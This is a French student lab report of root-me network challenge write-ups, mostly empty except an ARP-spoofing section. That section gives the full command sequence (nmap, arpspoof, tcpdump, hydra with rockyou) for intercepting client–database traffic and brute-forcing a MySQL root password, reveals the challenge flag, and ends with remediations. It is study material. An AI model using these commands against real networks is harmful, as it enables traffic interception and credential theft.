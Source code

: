 # TP6 : Un peu de root-me


## Sommaire

- [TP6 : Un peu de root-me](#tp6--un-peu-de-root-me)
  - [Sommaire](#sommaire)
  - [I. DNS Rebinding](#i-dns-rebinding)
  - [II. Netfilter erreurs courantes](#ii-netfilter-erreurs-courantes)
  - [III. ARP Spoofing Ecoute active](#iii-arp-spoofing-ecoute-active)
  - [IV. Bonus : Trafic Global System for Mobile communications](#iv-bonus--trafic-global-system-for-mobile-communications)

## I. DNS Rebinding

> [**Lien vers l'épreuve root-me.**](https://www.root-me.org/fr/Challenges/Reseau/HTTP-DNS-Rebinding)


🌞 **Write-up de l'épreuve**

🌞 **Proposer une version du code qui n'est pas vulnérable**


## II. Netfilter erreurs courantes

> [**Lien vers l'épreuve root-me.**](https://www.root-me.org/fr/Challenges/Reseau/Netfilter-erreurs-courantes)


🌞 **Write-up de l'épreuve**

🌞 **Proposer un jeu de règles firewall**


## III. ARP Spoofing Ecoute active

> [**Lien vers l'épreuve root-me.**](https://www.root-me.org/fr/Challenges/Reseau/ARP-Spoofing-Ecoute-active)

🌞 **Write-up de l'épreuve**

### Le but de ce chall est de récupérer des informations confidentielles qui transitent sur un réseau, et nous avons accès à ce réseau à travers une machine que nous contrôlons.

On nous dit que le flag est la concaténation de la réponse à une requête sur le réseau, ainsi que le mot de passe de la base de données. On va donc mettre en place un man-in-the-middle pour trouver la première partie, puis on va brute force le mdp de la base de donnée pour la seconde partie. 

```
# apt install iproute2 -y

# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever

```
Nous allons commencer par scanner le réseau local afin de voir les machines qui y sont présentes.
```
# apt install nmap -y

# nmap -sn 172.18.0.0/16
Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-04 15:18 UTC
Nmap scan report for 172.18.0.1
Host is up (0.000032s latency).
MAC Address: 02:42:D5:43:77:9E (Unknown)
Nmap scan report for client.arp-spoofing-dist-2_default (172.18.0.3)
Host is up (0.000031s latency).
MAC Address: 02:42:AC:12:00:03 (Unknown)
Nmap scan report for db.arp-spoofing-dist-2_default (172.18.0.4)
Host is up (0.000036s latency).
MAC Address: 02:42:AC:12:00:04 (Unknown)
Nmap scan report for fac50de5d760 (172.18.0.2)
Host is up.
```
On voit deux machines distinctes, un client en 172.18.0.3, et une base de données en 172.18.0.4. 

Nous allons ensuite mettre en place un man-in-the-middle entre ces deux machines, afin de pouvoir consulter le trafic qui passe. Nous allons utiliser la technique du ARP poisoning afin que le client pense que nous sommes la DB, et que la DB pense que nous sommes le client.
```
# cat /proc/sys/net/ipv4/ip_forward
1
```
On regarde si le forwarding de paquet est activé, sans cela les paquets ne pourront pas transiter à travers notre machine et ainsi atteindre leur cible originelle.

 Dans un deuxième temps, nous allons utiliser `arpspoof` pour envoyer continuellement des paquets ARP qui vont falsifier la table ARP du  client, et de la DB. 

```
# arpspoof -t 172.18.0.3 -r 172.18.0.4
2:42:ac:12:0:2 2:42:ac:12:0:3 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:2
2:42:ac:12:0:2 2:42:ac:12:0:4 0806 42: arp reply 172.18.0.3 is-at 2:42:ac:12:0:2
```

Nous allons scanner la machine db afin de voir quelles services tournent.
```
# nmap 172.18.0.4
Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-04 15:29 UTC
Nmap scan report for db.arp-spoofing-dist-2_default (172.18.0.4)
Host is up (0.000037s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
3306/tcp open  mysql
MAC Address: 02:42:AC:12:00:04 (Unknown)
Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```
On voit donc que c'est une base de données mysql avec le port 3306 d'ouvert.

Nous allons maintenant utiliser `tcpdump` pour voir les données qui transitent sur notre réseau, en précisant bien qu'on ne veut que voir les paquets venant ou partant vers le port 3306.
```
# apt install dsniff tcpdump -y

# tcpdump -A port 3306


first part of the flag: l1tter4lly_4_c4ptur3_th3_fl4g
```
Nous voyons donc la première partie du flag dans un des paquets.

Nous allons ensuite télécharger une liste des mots de passe les plus fréquemment utilisés afin de brute force le mot de passe de la DB.
```
#wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

#apt install hydra -y

#hydra -l root -P rockyou.txt 172.18.0.4 mysql

[3306][mysql] host: 172.18.0.4   login: root   password: heyheyhey
```
Nous trouvons donc comme mot de passe de db `heyheyhey`.

Le flag final est donc: `l1tter4lly_4_c4ptur3_th3_fl4g:heyheyhey`
 



🌞 **Proposer une configuration pour empêcher votre attaque**

Il y a plusieurs remédiations que nous pouvons mettre en place.

D'abord, afin d'empêcher le MITM, nous pouvons mettre en place des entrées ARP statiques, ainsi qu'un `Dynamic ARP Inspection` qui évalue la validité de chaque paquet ARP.

Afin d'empêcher un attaquant de retrouver le mot de passe, il faudrait interdire la connexion avec root quand la connexion ne vient pas du local host, il faudrait aussi utiliser un mot de passe plus secure, et il faudrait utiliser l'option `require_secure_transport` afin que toutes les connections soient chiffrées.


## IV. Bonus : Trafic Global System for Mobile communications

> [**Lien vers l'épreuve root-me.**](https://www.root-me.org/fr/Challenges/Reseau/Trafic-Global-System-for-Mobile-communications)

⭐ **BONUS : Write-up de l'épreuve**
